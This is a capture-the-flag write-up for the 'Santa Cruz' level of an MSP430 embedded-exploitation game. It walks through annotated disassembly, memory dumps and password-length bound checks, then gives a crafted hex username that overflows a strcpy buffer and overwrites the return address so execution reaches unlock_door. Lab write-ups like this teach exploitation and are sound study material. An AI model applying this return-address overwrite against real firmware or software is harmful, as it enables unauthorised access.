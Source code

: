 # Santa Cruz

This challenge was definitely harder, and i loved it! Lets get straight into it <br>

First things first:
- This challenge reads a **username** and a **password** from the user
- both with **0x63** (d:99) size and copied to other memory location using **strcpy**

After checking this, i went commenting the code while stepping throught the debugger (i'll show only what matters)

```assembly
4550 <login>

; -- snip --

45d0:  mov	r11, r15                    ; <- r11=43b5                    We control the value in r11, End of username  
45d2:  mov	r4, r14                     ; <- r04=43cc                    We control the value in r4, Aa @ pwd index 24th
45d4:  add	#0xffe8, r14                ; <- 0xffe8 + 0x43cc = 0x43b4    We control the result value, 
>    45d8:  inc	r14                     ; <- 0x43b5                      We control 
|    45da:  tst.b	0x0(r14)
45de:  jnz	#0x45d8 <login+0x88>        ; <- tries to find the end of input, calculating the password length
                                        ;  r14 = 4418         
                                        ; /\ input dependent, smaller string, finds a null byte sooner 
45e0:  mov	r14, r11                    ; <- we control the value in r14 (pwd len), r1 = pwd_len
45e2:  sub	r15, r11                    ; <- r11 = 0x4418 - 0x43b5 -  <=> r11 = 0x0063 
45e4:  mov.b	-0x18(r4), r15          ; <- r4-0x18 = 43b4   We control this, 3rd E in the username
45e8:  sxt	r15                         ; 
45ea:  cmp	r15, r11                    ; <- compare 0x45, 0x63 
45ec:  jnc	#0x45fa <login+0xaa>        ; <- jump not carry set
|    45ee:  mov	&0x2400, r15
|    45f2:  call	#0x4728 <puts>
V    45f6:  br	#0x4440 <__stop_progExec__>
45fa:  mov.b	-0x19(r4), r15          <- r4=0x43cc-0x19=43B3 ... 0x45 (2nd E)
45fe:  sxt	r15                         
4600:  cmp	r15, r11                    <- Checking against pwd_length
4602:  jc	#0x4610 <login+0xc0>        <- checks if greater, needs to be > 0x45 (username:Ec  the E value)
|    4604:  mov	&0x2402, r15
|    4608:  call	#0x4728 <puts>
V    460c:  br	#0x4440 <__stop_progExec__>
4610:  mov.b	#0x0, -0x2c(r4)         <- sp (not important)
        ; here is the INT call to the HSM-2 is being prepared, we dont care about this
```

```s
# this is the memory layout for the afore execution with this inputs
# username: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXZZZZ
# password: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2
2400:   6a46 9646 4161 3041 6131 4161 3241 6133   jF.FAa0Aa1Aa2Aa3
2410:   4161 3441 6135 4161 3641 6137 4161 3841   Aa4Aa5Aa6Aa7Aa8A
2420:   6139 4162 3041 6231 4162 3241 6233 4162   a9Ab0Ab1Ab2Ab3Ab
2430:   3441 6235 4162 3641 6237 4162 3841 6239   4Ab5Ab6Ab7Ab8Ab9
2440:   4163 3041 6331 4163 3241 6333 4163 3441   Ac0Ac1Ac2Ac3Ac4A
2450:   6335 4163 3641 6337 4163 3841 6339 4164   c5Ac6Ac7Ac8Ac9Ad
2460:   3041 6431 4164 3200 0000 0000 0000 0000   0Ad1Ad2.........
2470:   *
4390:   0000 d846 0300 4c47 0000 0a00 0000 d045   ...F..LG.......E
43a0:   0000 4141 4141 4242 4242 4343 4343 4444   ..AAAABBBBCCCCDD
43b0:   4444 4545 4541 6130 4161 3141 6132 4161   DDEEEAa0Aa1Aa2Aa
43c0:   3341 6134 4161 3541 6136 4161 3741 6138   3Aa4Aa5Aa6Aa7Aa8
43d0:   4161 3941 6230 4162 3141 6232 4162 3341   Aa9Ab0Ab1Ab2Ab3A
43e0:   6234 4162 3541 6236 4162 3741 6238 4162   b4Ab5Ab6Ab7Ab8Ab
43f0:   3941 6330 4163 3141 6332 4163 3341 6334   9Ac0Ac1Ac2Ac3Ac4
4400:   4163 3541 6336 4163 3741 6338 4163 3941   Ac5Ac6Ac7Ac8Ac9A
4410:   6430 4164 3141 6432 0001 2f83 9f4f 6a47   d0Ad1Ad2../..OjG
```

Before jumping into a more detailed explanation, we can see that the **username is trimmed** at the 3rd **E** (inclusive), and the password is placed right after it <br>

Since the program is writing in contiguous memory, we can input a smaller password and it will be placed within the username <br>

I wrote what the code does by its side, so its easier to follow along, but some notes may be taken:
- **0x45e4** (mov.b	-0x18(r4), r15) - We can control left operand
  - -0x18(r4) -> last username byte (0x45 -> E)
- **0x45ea** (cmp r15, r11) - compares both numbers (setting flags), we control both
  - r15 -> see prior bulletin
  - r11 -> password size
- **0x45ec** (jnc	#0x45fa ) - Checks if the carry flag is set (it is already set, so we need to somehow clear it)
    - If they are the same -> zero is set, carry unchanged
    - If r11 bigger -> carry set 1
    - if r15 smaller -> carry set 0, N set (negative)
- **0x45fa** (mov.b	-0x19(r4), r15) - moves the 2nd E from username to r15
- **0x4600** (cmp r15, r11) - checks against password length
  - r15 -> 0x45 (2nd E in the inputed username)
  - r11 -> unchanged (password length)
- **0x4602** (jc 0x4610) 
  - Jumps if carry set!
  - So we need r15 > r11

To bypass all this, as seen, we need a password that has its length delimited by the values present at the username input at indexes:
- Lower bound: username[17]
- Upper bound: username[18]
- Example
  - Username input: AAAABBBBCCCCDDDDEac
  - Lower bound (a): 61
  - Upper bound (c): 63

Alright, we know how to bypass some initial restrictions, lets check the rest of the code, shall we?! <br>

**Note:** the comments made on the lower portion of the code below were made after successfully hit the ret instruction. the memory shown further below does not match the input to achieve that, but rather a simple showcase of addresses and how to manipulate the execution flow through them

```assembly
; after the call to the HSM-2
4632:  add	#0x8, sp                                ; resetting the stack to our program   
4634:  tst.b	-0x2c(r4)                           ; checking the return address as it seems

; -- snip --

464c:  tst.b	-0x6(r4)                            ;-0x6(r4) => 0x43cc-0x6 = 0x43C6 <- we control this -> pwd[18]
4650:  jz	#0x465e <login+0x10e>                   ; checks if null byte at pwd[18]
4652:  mov	&0x2400, r15
4656:  call	#0x4728 <puts>
465a:  br	#0x4440 <__stop_progExec__>
465e:  add	#0x28, sp                               ; resetting the stack
4662:  pop	r4
4664:  pop	r11
4666:  ret                                          ; sp == 0x43cc <- we control this
```

```s
43b0:   4444 4545 4541 6130 4161 3141 6132 4161   DDEEEAa0Aa1Aa2Aa
43c0:   3341 6134 4161 3541 6136 4161 3741 6138   3Aa4Aa5Aa6Aa7Aa8
```

There's not much to add to what is already written as commentaries on the instructions side. We just need to be sure that the password has 17 chars (so the 18th is a null byte) <br>

Since the platform allows users to define the type of input to hex, we can set extremely low bounds when compared with ascii input (i.e: 6 < pwd_len < 8) <br>

Lets craft the input ! <br> 

#### username

What do we know?!
- We control the execution flow by delimiting the password length. 
- The password is inserted from the username's 20th byte onwards (inclusive)
- A null byte is needed @ 0x43cc -> the password needs to be 17 chars
- The ret address is at 

```bash
$username="AAAABBBBCCCCDDDDEEEEFFFF"
$crafted_username_pre_hex_="AAAABBBBCCCCDDDDE[LB][UB](password)(remaining username input)"
# where
# [LB] (lower bound) ->  1                              
# [UB] (upper bound) ->  18                               
#                                                         V V| password will be placed here  |     junk    |RET
$crafter_username_hex="4141414141414141414141414141414141011242424242434343434444444445454545464646464747474a44"
$password="AAAAAAAAAAAAAAAAA"           
```

**Note:** the username needs the "input as hex" checkbox checked so we can set lower password length bounds. the password doesn't <br>

And, with this input, we can control the program flow and return to the **unlock_door** (0x444a) function <br>

The door and the **Jakarta** level are **unlocked**  ;D